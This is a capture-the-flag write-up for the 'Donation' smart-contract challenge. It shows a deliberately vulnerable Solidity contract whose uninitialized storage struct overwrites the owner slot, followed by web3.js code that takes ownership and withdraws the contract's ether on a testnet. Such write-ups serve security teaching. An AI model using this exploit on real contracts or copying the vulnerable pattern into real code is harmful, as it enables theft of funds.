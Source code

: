 # 13. Donation

A candidate you don’t like is accepting campaign contributions via the smart contract below.

To complete this challenge, steal the candidate’s ether.

## Target contract

```solidity
pragma solidity ^0.4.21;

contract DonationChallenge {
    struct Donation {
        uint256 timestamp;
        uint256 etherAmount;
    }
    Donation[] public donations;

    address public owner;

    function DonationChallenge() public payable {
        require(msg.value == 1 ether);
        
        owner = msg.sender;
    }
    
    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function donate(uint256 etherAmount) public payable {
        // amount is in ether, but msg.value is in wei
        uint256 scale = 10**18 * 1 ether;
        require(msg.value == etherAmount / scale);

        Donation donation;
        donation.timestamp = now;
        donation.etherAmount = etherAmount;

        donations.push(donation);
    }

    function withdraw() public {
        require(msg.sender == owner);
        
        msg.sender.transfer(address(this).balance);
    }
}
```

## Vulnerability

The vulnerability is at `Donation donation;`. Remember that `Donation` is a struct type so bounded to storage or memory, the default location is storage.
You'll notice that the `donation` variable is not initialized, which means that its slot is not initialized neither.. given that variables default to a value of 0 in solidity you'll understand that the slot pointed to by `donation` is actually slot 0.

The struct type `Donation` contains two `uint256`, so it is spanning 2 storage slot. The member `etherAmount` of `donation` is therefore bounded to slot 1, shich hold the `owner` state variable.

We must therefore send an `etherAmount` equal to our personal address. The contract is made in such a way that we don't need to send that much Ethereum as our required `msg.value` is `etherAmount / 10^36`.

My testnet address is : `0xE613c2d3D36A7934589BC393119eD33Ac165A596`, the associated `msg.value` is therefore : `0xE613c2d3D36A7934589BC393119eD33Ac165A596 / 10 ** 36`.

```js
const challengeContract = "0x5cFe6FE7292e940F47f856958E9068083242181c";

const value = web3.utils
  .toBN(accounts[0])
  .div(new web3.utils.BN("10").pow(new web3.utils.BN("36")));

const data = web3.eth.abi.encodeFunctionCall(
  {
    name: "donate",
    type: "function",
    inputs: [{ type: "uint256", name: "etherAmount" }],
  },
  [accounts[0]]
);

await web3.eth.sendTransaction({
  from: accounts[0],
  to: challengeContract,
  data: data,
  value: value,
});
```

You can check that you do have ownership by reading storage slot 1 or calling `owner()` :

```js
console.log(await web3.eth.getStorageAt(challengeContract, 1));
// prints : 0x000000000000000000000000YOUR-ADDRESS-IS-HERE
```

Now that we are the owner, we can withdraw everything :

```js
const challengeContract = "0x5cFe6FE7292e940F47f856958E9068083242181c";

const data = web3.eth.abi.encodeFunctionCall(
  {
    name: "withdraw",
    type: "function",
    inputs: [],
  },
  []
);

await web3.eth.sendTransaction({
  from: accounts[0],
  to: challengeContract,
  data: data,
});
```

And submit the challenge.
